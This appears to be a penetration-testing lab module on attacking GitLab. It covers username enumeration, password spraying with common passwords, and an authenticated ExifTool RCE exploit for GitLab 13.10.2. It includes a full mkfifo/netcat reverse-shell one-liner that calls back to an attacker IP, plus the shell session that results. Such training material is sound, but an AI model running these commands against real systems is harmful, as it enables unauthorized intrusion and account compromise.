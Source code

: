 GitLab has [553 CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-13074/Gitlab.html) reported as of September 2021. While not every single one is exploitable, there have been several severe ones over the years that could lead to remote code execution.

## Username Enumeration

Though not considered a vulnerability by GitLab as seen on their [Hackerone](https://hackerone.com/gitlab?type=team) page ("User and project enumeration/path disclosure unless an additional impact can be demonstrated"), it is still something worth checking as it could result in access if users are selecting weak passwords. We can write our own Bash or Python script, or use [this one](https://www.exploit-db.com/exploits/49821) to enumerate a list of valid users. The Python3 version of this same tool can be found [here](https://github.com/dpgg101/GitLabUserEnum). GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes. This can be seen [here](https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/initializers/8_devise.rb). This can be changed, but GitLab would have to be compiled by source. At this time, there is no way to change this setting from the admin UI, but an admin can modify the minimum password length, which could help with users choosing short, common passwords but will not entirely mitigate the risk of password attacks:
```shell-session
# Number of authentication tries before locking an account if lock_strategy
# is failed attempts.
config.maximum_attempts = 10

# Time interval to unlock the account if :time is enabled as unlock_strategy.
config.unlock_in = 10.minutes
```

If we successfully pulled down a large list of users using the tool, we could attempt a controlled password spraying attack with weak, common passwords such as `Welcome1` or `Password123`, etc., or try to re-use credentials gathered from other sources such as password dumps from public data breaches:
```shell-session
$ ./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  			             GitLab User Enumeration Script
   	    			             Version 1.0

Description: It prints out the usernames that exist in your victim's GitLab CE instance

Disclaimer: Do not run this script against GitLab.com! Also keep in mind that this PoC is meant only
for educational purpose and ethical use. Running it against systems that you do not own or have the
right permission is totally on your own risk.

Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


LOOP
200
[+] The username root exists!
LOOP
302
LOOP
302
LOOP
200
[+] The username bob exists!
LOOP
302
```

## Authenticated Remote Code Execution

GitLab Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution [vulnerability](https://hackerone.com/reports/1154542) due to an issue with ExifTool handling metadata in uploaded image files. This issue was fixed by GitLab rather quickly, but some companies are still likely using a vulnerable version. We can use this [exploit](https://www.exploit-db.com/exploits/49951) to achieve RCE.

As this is authenticated remote code execution, we first need a valid username and password. In some instances, this would only work if we could obtain valid credentials through OSINT or a credential guessing attack. However, if we encounter a vulnerable version of GitLab that allows for self-registration, we can quickly sign up for an account and pull off the attack:
```shell-session
$ python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '

[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```

And we get a shell almost instantly:
```shell-session
$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id

id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls

ls
VERSION
config.toml
flag_gitlab.txt
sockets
```

